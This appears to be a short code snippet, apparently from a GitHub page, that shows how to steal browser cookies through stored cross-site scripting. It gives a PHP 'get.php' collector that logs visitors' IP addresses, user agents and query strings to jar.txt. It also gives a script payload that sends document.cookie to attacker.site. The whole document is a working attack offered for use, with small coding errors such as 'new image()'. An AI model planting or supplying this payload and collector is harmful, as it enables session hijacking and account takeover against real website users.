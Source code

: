##########################################################################################################

get.php file on web server to write received data to jar.txt

##########################################################################################################
```
<?php

$ip = $_SERVER['REMOTE_ADDR'];
$browser = $_SERVER['HTTP_USER_AGENT'];

$fp = fopen('jar.txt', 'a');

fwrite($fp, $ip.' '.$browser." \n");
fwrite($fp, urldecode($_SERVER['QUERY_STRING']). " \n\n");
fwrite($fp);
?>
```
##########################################################################################################

php string to send cookies to above php file. using stored xss when a user visits site with this xss on it will send there cookie to above php code file

##########################################################################################################

```<script> var i = new image(); i.src="http://attacker.site/get.php?cookie="+escape(document.cookie)</script>```
